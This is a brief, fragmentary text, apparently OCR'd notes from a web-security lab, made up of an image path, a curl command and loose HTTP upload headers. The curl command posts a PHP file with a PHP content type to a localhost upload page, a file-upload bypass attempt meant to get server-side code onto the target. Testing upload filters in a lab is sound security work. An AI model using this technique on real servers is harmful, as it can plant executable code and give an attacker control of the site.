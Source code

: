 curl -X POST -F "name=Upload" -F "Uploaded=@file.php;type=application/x-httpd-php" "http://localhost:8080/index.php?page=upload"





Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7


Content-Disposition: form-data; name="uploaded"; filename="1670093329-apng-clock.apng"
Content-Type: image/apng